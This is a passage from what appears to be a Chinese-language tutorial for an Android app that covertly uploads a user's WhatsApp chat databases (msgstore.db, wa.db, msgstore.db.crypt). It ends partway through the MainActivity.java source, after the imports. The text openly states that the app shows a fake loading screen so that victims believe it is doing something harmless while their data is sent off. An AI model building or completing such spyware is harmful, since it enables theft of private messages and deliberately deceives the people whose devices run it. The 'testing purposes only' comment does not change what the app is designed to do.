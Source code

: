         <TextView
            android:layout_width="wrap_content"
            android:layout_height="wrap_content"
            android:layout_alignParentTop="true"
            android:layout_centerHorizontal="true"
            android:layout_marginTop="179dp"
            android:text="@string/hello_world"
            android:textSize="24sp" />
    
    </RelativeLayout>


目前还没有让人激动的事情，真正的激动在MainActivity.java文件。我们会试着上传3个文件：



	
  * /WhatsApp/Databases/msgstore.db

	
  * /WhatsApp/Databases/wa.db

	
  * /WhatsApp/Databases/msgstore.db.crypt


新版的WhatsApp打算在数据库（msgstore.db.crypt）做一些crypto魔法，因此这会更安全。从这个数据库读取聊天记录仍然是可能的，不过更加困难。msgstore.db和wa.db是WhatsApp较老的未加密数据库。

在WhatsApp数据库文件上传的时候，我们会显示一个简单的载入界面，让人们认为这个应用程序正在后台做着有意思的事情。

    
    
    package bb.security.whatsappupload;
    
    /*
     * This application is for testing purposes only. 
     * Use of this application is at your own risk.
     */
    
    import java.io.DataInputStream;
    import java.io.DataOutputStream;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;
    import java.net.HttpURLConnection;
    import java.net.MalformedURLException;
    import java.net.URL;
    
    import android.os.AsyncTask;
    import android.os.Bundle;
    import android.os.Environment;
    import android.app.Activity;
    import android.app.ProgressDialog;
    import android.util.Log;
    import android.view.Menu;
    
    public class MainActivity extends Activity {
    
    	//A ProgressDialog object
    	private ProgressDialog progressDialog;
    